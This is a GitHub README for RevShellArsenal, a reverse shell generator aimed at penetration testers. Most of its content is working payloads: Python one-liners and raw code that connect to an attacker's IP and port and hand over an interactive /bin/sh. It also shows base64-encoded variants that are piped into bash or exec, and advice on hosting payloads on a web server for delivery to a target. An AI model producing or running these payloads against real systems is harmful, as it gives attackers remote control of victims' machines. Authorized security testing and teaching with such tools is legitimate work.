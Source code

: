 # RevShellArsenal

___RevShellArsenal___ is a small tool I wrote to generate reverse shells in differents languages, based on widely known techniques (e.g.: pentestmonkey cheat sheet). 

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/RevShellArsenal/master/screenshots/00_RevShellArsenal.gif">
</p>

## Usage
```
usage: rsg.py [-h] [--raw] [--encode]
              {all,shell,perl,python,php,groovy,cmd,powershell} lhost lport

RevShellArsenal - Reverse Shell Generator

positional arguments:
  {all,shell,perl,python,php,groovy,cmd,powershell}
                        Payload (choose 'all' to generate all payloads)
  lhost                 Local IP address
  lport                 Local port

optional arguments:
  -h, --help            show this help message and exit
  --raw                 Print raw payload instead of one-liner
  --encode              Encode raw payload and print command
```

## Examples

1. __One-liner__

Generate a __Pyhon__ Reverse Shell __one-liner__.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234
[SHELL][PYTHON][ONE-LINER]
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.37",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

2. __Raw code__

Generate a __Python__ Reverse Shell and print it as __raw code__. This is useful if you want to output the result to a script a file and then __host it on a web server__ to deliver it to the target.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234 --raw
[PYTHON][RAW]
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.13.37",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

3. __One-liner with encoded payload__

Generate a __Python__ Reverse Shell and print it as an __encoded command__. This is useful to __avoid special characters__.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234 --encode
[SHELL][PYTHON][ENCODED]
bash -c "{echo,cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=}|{base64,-d}|{bash,-i}"

[PYTHON][ENCODED]
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zOwpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTsKcy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTsKb3MuZHVwMihzLmZpbGVubygpLDApOwpvcy5kdXAyKHMuZmlsZW5vKCksMSk7Cm9zLmR1cDIocy5maWxlbm8oKSwyKTsKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7'.decode('base64'))"
```

## Credits

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - The famous reverse shell cheat sheet from pentestmonkey.

[Nishang PowerShell Reverse Shells](https://github.com/samratashok/nishang/tree/master/Shells) - Great PowerShell scripts for Windows-based reverse shells.

[java.lang.Runtime.exec() Payload Workarounds](https://jthuraisamy.github.io/archives.html/runtime-exec-payloads.html) - A tool to _encode_ Bash, PowerShell, Perl and Python commands/scripts. Useful when special characters usage is limited. The link is broken but is still available in [Google cache](https://webcache.googleusercontent.com/search?q=cache:5AdcRIUec4sJ:https://jackson.thuraisamy.me/runtime-exec-payloads.html).
